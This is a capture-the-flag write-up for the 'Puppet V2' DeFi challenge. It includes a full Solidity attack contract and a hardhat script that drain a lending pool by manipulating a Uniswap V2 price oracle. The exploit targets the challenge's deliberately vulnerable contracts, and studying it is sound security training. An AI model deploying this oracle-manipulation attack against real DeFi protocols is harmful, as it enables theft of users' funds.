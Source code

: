 # Puppet V2

## Challenge

We get pretty much the same construct as in the first puppet challenge. We have an UniswapV2 Router & Factory as well as a lending pool, in which we can lend out tokens if we put in enough WETH. Our goal is to drain the pool.

## Solution

We can pretty much do the same as in Puppet here. We use our tokens to manipulate the price of the AMM. 

We can do this by first swapping all our tokens for WETH. This already crashes the token price by enough to be able to withdraw all the tokens from the pool. So we now just need to withdraw all the money from the pool and are done.

I implemented this using an attack contract as I didn't want to do a single line of hardhat code more than I needed to. My contract is a bit more versatile than needed, as I expected that we would need to do the whole process multiple times. 
I added the 2 functions maxLend() and neededCollateral() to make it easier to calculate. If you want to see the full code check out the sources, I have added a simplified version here.

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.6.0;

import "./PuppetV2Pool.sol";
import '@uniswap/v2-core/contracts/interfaces/IUniswapV2Factory.sol';
import '@uniswap/v2-core/contracts/interfaces/IUniswapV2Pair.sol';
import '@uniswap/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol';
import "hardhat/console.sol";

contract AttackV2Puppet{
    using SafeMath for uint256;

    PuppetV2Pool pool;
    IERC20 dvt;
    IERC20 weth;
    IUniswapV2Pair pair;
    IUniswapV2Router02 router;
    IUniswapV2Factory factory;

    constructor(address _pool, address _router, address _token, address _weth, address _pair, address _factory) payable public
    {
        dvt = IERC20(_token);
        weth = IERC20(_weth);
        pool = PuppetV2Pool(_pool);
        pair = IUniswapV2Pair(_pair);
        router = IUniswapV2Router02(_router);
        factory = IUniswapV2Factory(_factory);
    }

    function attack() external
    {
        //transfer all the tokens and weth from the owner to this contract
        dvt.transferFrom(msg.sender, address(this), dvt.balanceOf(msg.sender));
        weth.transferFrom(msg.sender, address(this), weth.balanceOf(msg.sender));

        //We do this until we have no more tokens in the pool

        //PHASE 1: Swapping at the AMM
        //approve the router to spend our tokens
        dvt.approve(address(router), dvt.balanceOf(address(this)));

        //generate the path
        address[] memory path = new address[](2);
        path[0] = address(dvt);
        path[1] = address(weth);

        //swap our tokens for eth
        router.swapExactTokensForTokens(dvt.balanceOf(address(this)), 1, path, address(this), block.timestamp + 42069);

        //PHASE 2: Lending out as much as we can
        //calculate how many tokens we can lend out
        uint256 max_lend = maxLend(weth.balanceOf(address(this)));

        //we need to exactly calculate how to get the rest out
        console.log("Final Lending");

        //calculate how much weth we need to send to get the rest of the tokens out
        uint256 final_value_sent = neededCollateral(dvt.balanceOf(address(pool)));

        //approve so it can use transferFrom()
        weth.approve(address(pool), final_value_sent);
        pool.borrow(dvt.balanceOf(address(pool)));
        
        //generate the new path
        path[0] = address(weth);
        path[1] = address(dvt);

        //swap our tokens for eth
        weth.approve(address(router), weth.balanceOf(address(this)));
        router.swapExactTokensForTokens(weth.balanceOf(address(this)), 1, path, address(this), block.timestamp + 42069);

        //transfer all our tokens to the player
        dvt.transfer(msg.sender, dvt.balanceOf(address(this)));
    }

    //Collateral calculation
    function neededCollateral(uint256 amount) private view returns (uint256) {
        //retrieve the reserves of the pair from the factory
        (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(address(factory), address(weth), address(dvt));

        //calculate quote
        uint256 oraclequote =  UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);

        return (oraclequote * 3) / (1 ether);
    }

    //Max lend we will get for our WETH
    function maxLend(uint256 amount) private view returns (uint256) {
        //TODO: Possibly some fuckery in here

        //retrieve the reserves of the pair from the factory
        (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(address(factory), address(weth), address(dvt));

        return UniswapV2Library.quote(amount.mul(10 ** 18), reservesWETH, reservesToken) / (3 ether);
    }
}
```

I then deploy and run this in the hardhat script, which passes all checks.

```js
//Get our WETH
let weth_to_send = 199n * 10n ** 17n;
await weth.connect(player).deposit({value: weth_to_send});

//Deploy the attack contract
let AttackPuppet = await (await ethers.getContractFactory('AttackV2Puppet', player)).deploy(lendingPool.address, uniswapRouter.address, token.address, weth.address, uniswapExchange.address, uniswapFactory.address);

//Appove the attack contract so it can use transferFrom() to get its WETH & tokens
await weth.connect(player).approve(AttackPuppet.address, weth_to_send);
await token.connect(player).approve(AttackPuppet.address, PLAYER_INITIAL_TOKEN_BALANCE);

// Swap tokens for ETH /reduce price oracle
await AttackPuppet.attack();
```
